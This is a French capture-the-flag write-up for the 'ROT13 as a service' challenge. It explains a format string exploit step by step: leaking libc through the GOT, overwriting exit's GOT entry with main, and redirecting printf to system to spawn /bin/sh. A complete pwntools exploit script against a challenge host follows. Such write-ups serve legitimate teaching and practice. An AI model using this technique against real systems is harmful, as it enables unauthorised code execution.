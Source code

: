 # ROT13 as a service

La partie reverse du programme est assez rapide puisqu'il fait 10 lignes ^^

Il commence par mettre les `files stream` en unbuffered ce qui va nous arranger pour pouvoir leak des adresses sans devoir attendre un `\n`.

Le code fait récupère une chaine de caractères, effectue un ROT13 sur les lettres (et ne bouge pas les autres octets) puis affiche le décodé avec `printf`.  
On a donc un **format string** !

Il y a seulement `partial RELRO` d'activé, on va donc pouvoir jouer avec les entrées de la GOT.  
Par contre, la libc n'est pas fournie. Il va donc falloir qu'on la trouve.

## Format string exploit
Comme notre buffer est stocké en stack, on va pouvoir retomber dessus avec le format string.

Une petite boucle python qui brute-force le `%<n>$p` permet de trouver que le contenu du buffer se trouve à l'offset 11.

## Trouver la libc
Pour trouver la version de libc utilisée, on va leak les pointeurs vers cette dernière dans la *GOT*.  
```python
p = b'%13$s AA'
p += p32(exe.got['puts'])
io.sendlineafter(b'input: \n',rot(p))

leak = u32(io.recv(4))
print(f'Puts = {leak:x}')
```

On fait ça avec deux/trois fonctions, on met les 12 bits de poids faible dans `https://libc.blukat.me/`. Et on trouve la libc `libc6-i386_2.35-0ubuntu3_amd64.so` !!

## Exploit
Maintenant qu'on a la libc,on va pouvoir faire notre exploit.  
Le plan d'attaque vas donc être de leak une adresse libc, calculer l'adresse de `system` et la mettre dans la GOT.

Mais pour ça on va avoir besoin de faire deux format string !  
Par chance, le développeur appelle une fonction libc après notre format string (exit). On va donc pouvoir mettre l'adresse de `main` dans l'entrée GOT de `exit` pour relancer le programme et avoir une seconde fmt.  

Grâce à cette deuxième fmt, on va mettre `system` dans l'entrée GOT de `printf` pour pouvoir choisir le paramètre de `system`.  
Et comme la GOT de `exit` n'a pas bougée, ça va relancer le programe une troisième fois.

Et pour cette fois on a plus qu'a envoyer `/bin/sh` encodé en ROT13 et on récupère un shell.

## Script
```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwn import *
import string

exe = context.binary = ELF('./rot13')
libc = ELF('libc6-i386_2.35-0ubuntu3_amd64.so')

host = args.HOST or '10.22.6.20'
port = int(args.PORT or 1338)

rot13 = str.maketrans(
    'ABCDEFGHIJKLMabcdefghijklmNOPQRSTUVWXYZnopqrstuvwxyz',
    'NOPQRSTUVWXYZnopqrstuvwxyzABCDEFGHIJKLMabcdefghijklm')

def rot(msg):
    o = b''
    for i in msg:
        if chr(i) in string.ascii_lowercase or chr(i) in string.ascii_uppercase:
            a = chr(i).translate(rot13).encode()
        else:
            a = p8(i)
        o += a
    return o

def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

context.terminal = ['xfce4-terminal','-e']
gdbscript = '''
b *main+204
continue
'''.format(**locals())

# -- Exploit goes here --

io = start()

# Leak libc
p = fmtstr_payload(11, {(exe.got['exit']): exe.sym['main']})
p += b'AAAA'
p += p32(exe.got['puts'])
p += b'%24$s'
print(len(rot(p)))
io.sendlineafter(b'input: \n',rot(p))
io.recvuntil(b'AAAA')
io.recv(4)
leak = u32(io.recv(4))
libc.address = leak - libc.sym['puts']

print(f'{leak = :x} {libc.address = :x}')

# Exploit
fmt = fmtstr_payload(11, {exe.got['printf']: exe.sym['system']})
io.sendline(rot(fmt))


io.sendline(rot(b'/bin/sh'))

io.interactive()


```